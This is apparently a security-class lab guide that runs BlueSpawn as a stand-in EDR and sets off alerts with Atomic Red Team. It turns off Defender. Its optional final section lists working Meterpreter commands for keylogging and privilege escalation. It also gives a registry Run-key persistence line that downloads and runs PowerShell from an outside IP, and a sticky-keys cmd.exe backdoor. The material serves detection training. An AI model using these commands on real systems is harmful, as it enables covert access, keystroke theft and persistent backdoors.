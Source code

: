 

# Bluespawn

In this lab we will be using Bluespawn as a stand-in for an EDR system.  Normally full EDRs like Cylance and Crowdstrike are very expensive and tend not to show up in classes like this.  However, the folks at University of Virginia have done an outstanding job with BlueSpawn. 

BlueSpawn will monitor the system for "weird" behavior and note it when it occurs. For the money, it is great.

In this lab, we will be starting BlueSpawn and then running Atomic Red Team to trigger a lot of alerts.

First, let’s disable Defender. Simply run the following from an Administrator PowerShell prompt:

`Set-MpPreference -DisableRealtimeMonitoring $true`

This will disable Defender for this session.

If you get angry red errors, that is Ok, it means Defender is not running.


Let's get started by opening a Terminal as Administrator:


![](attachments/Clipboard_2020-06-12-10-36-44.png)


Now, let's open a command Prompt:

![](attachments/Clipboard_2020-06-16-09-53-18.png)

Next, let’s change directories to tools and start Bluespawn:
C:\Users\adhd>`cd \tools`

C:\tools>`./BLUESPAWN-client-x64.exe --monitor --level Cursory`


![](attachments/Clipboard_2020-06-16-09-46-00.png)

Now, let’s use Atomic Red Team to test the monitoring with BlueSpawn:

First, we need to open a PowerShell Prompt:

![](attachments/Clipboard_2020-06-16-09-55-12.png)

Next, in the PowerShell Window we need to navigate to the Atomic Red Team directory and import the powershell modules:

PS C:\Users\adhd> `cd C:\AtomicRedTeam\invoke-atomicredteam\`

Then, install the proper yaml modules

PS C:\Users\adhd> `Install-Module -Name powershell-yaml`

PS C:\AtomicRedTeam\invoke-atomicredteam> `Import-Module .\Invoke-AtomicRedTeam.psm1`


Now, we need to invoke all the Atomic Tests.

Special note...  Don't do this in production...  Ever.  Always run tools like Atomic Red Team on test systems.  We recommend that you run in on a system with your EDR/Endpoint protection in non-blocking/alerting mode.  This is so you can see what the protection would have done, but it will allow the tests to finish.

PS C:\AtomicRedTeam\invoke-atomicredteam> `Invoke-AtomicTest All`

If you get any “file exists” questions or errors, just select Yes.

It should look like this:

![](attachments/Clipboard_2020-06-16-09-48-18.png)

Please note, there will be some errors when this runs.  This is normal.


Only let this run for 30-45 seconds!!!  Kill it with Ctrl + c!!

You should be getting a lot of alerts with Bluespawn Switch tabs in your Terminal to see them:

![](attachments/Clipboard_2020-06-16-09-47-26.png)


Now, let’s go back to the PowerShell prompt and clean up:

PS C:\AtomicRedTeam\invoke-atomicredteam> `Invoke-AtomicTest All -Cleanup`

It should look like this:

![](attachments/Clipboard_2020-06-23-13-36-10.png)

# If you have more time

Feel free to exploit system using the commands we went through in AppLocker or Sysmon and then run the following Meterpreter commands


Run commands

meterpreter > `keyscan_start`

meterpreter > `keyscan_dump`

![](attachments/Clipboard_2020-06-15-13-52-00.png)



meterpreter > `shell`

C:\> `reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v Payload /d "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://172.20.243.5:80/a'))\"" /f`

C:\>  `reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "c:\windows\system32\cmd.exe"`

![](attachments/Clipboard_2020-06-15-14-00-53.png)



meterpreter >`getsystem`

![](attachments/Clipboard_2020-06-15-13-52-28.png)


![](attachments/Clipboard_2020-06-15-13-56-34.png)




